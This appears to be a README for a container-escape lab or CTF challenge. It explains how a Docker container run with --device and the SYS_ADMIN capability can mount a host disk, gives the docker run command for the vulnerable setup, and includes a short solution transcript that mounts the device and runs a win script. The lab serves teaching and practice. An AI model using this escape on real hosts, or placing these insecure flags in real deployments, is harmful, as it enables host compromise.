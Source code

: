 # Dangerous device mount

Docker has built-in flag _--device_ which allows devices to be run inside a container. This way, _--privileged_ flag does not need to be used. When combined with _SYS_ADMIN_ capability, device can be also mounted, and therefore interaction between another file system takes place. Mounting a device itself is not dangerous if the device is for example a pendrive or external hard drive, but mounting internal drive which is used by host system can help attackers to escape from a container.

## Description

Prepared device is a virtual disk in `.iso` format, which is mounted on as a loop device. In real environment, it could be /dev/sda when whole system would be accessable. Due to the fact of how the platform is constructed, many different possibilities for disk creation could not be used. Additional information can be found in `create_disk.sh` file.

Docker is run with following command:
```
docker run --device={loop}:/dev/s3cur3 --cap-add='SYS_ADMIN' -p {port}:8081 -d --restart unless-stopped vuln
```
where {loop} is a /dev/loopX device which will be mounted as /dev/s3cur3.

Docker run with this command has this device available in its /dev. Additionally, SYS_ADMIN capability allows to use `mount` command.

## Solution

```
root@c9a6d5d0c7b7:/# ls /dev
core  fd  full  mqueue  null  ptmx  pts  random  s3cur3  shm  stderr  stdin  stdout  tty  urandom  zero
root@c9a6d5d0c7b7:/# mkdir /mnt/drive
root@c9a6d5d0c7b7:/# mount /dev/s3cur3 /mnt/drive
root@c9a6d5d0c7b7:/# cd /mnt/drive
root@c9a6d5d0c7b7:/mnt/drive# ls
RUN_ME_TO_WIN.sh  lost+found
root@c9a6d5d0c7b7:/mnt/drive# ./RUN_ME_TO_WIN.sh
root@c9a6d5d0c7b7:/mnt/drive# ls
RUN_ME_TO_WIN.sh  VICTORY  lost+found
root@c9a6d5d0c7b7:/mnt/drive# 
```
